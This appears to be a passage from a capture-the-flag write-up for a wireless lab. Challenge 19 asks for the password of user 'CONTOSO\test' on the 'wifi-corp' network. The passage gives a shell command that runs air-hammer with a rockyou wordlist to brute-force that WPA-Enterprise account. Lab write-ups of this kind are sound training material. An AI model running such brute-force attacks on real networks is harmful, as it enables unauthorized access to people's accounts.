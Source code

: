 ## **19. What is `CONTOSO\test` password in wifi-corp?**

**Challenge Description :**  What is `CONTOSO\test` password in wifi-corp?

### Approach

Find `wifi-corp` AP:

![](Images/Recon18_01.png)

Use `air-hammer` to brute force user:

```shell
echo "CONTOSO\test" > user.txt
sudo ./air-hammer.py -i wlan1 -e wifi-corp -u user.txt -p ../../rockyou-top100000.txt -1
```

![](Images/Recon19_01.png)
